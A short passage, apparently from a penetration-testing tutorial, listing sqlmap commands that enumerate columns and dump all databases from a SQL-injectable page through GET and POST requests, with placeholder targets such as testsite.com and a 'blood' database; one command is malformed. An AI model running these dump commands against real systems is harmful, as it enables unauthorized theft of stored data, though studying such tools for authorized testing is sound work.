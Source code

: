 `sqlmap -r req.txt -D blood -T blood_db --columns`


Or we can simply dump all the available databases and tables using the following commands.  

**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all` 
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

  
**Using POST based Method**
`sqlmap -r req.txt -D <database_name> --dump-all`  
  
`sqlmap -r req.txt-p  -D <database_name> --dump-all`  

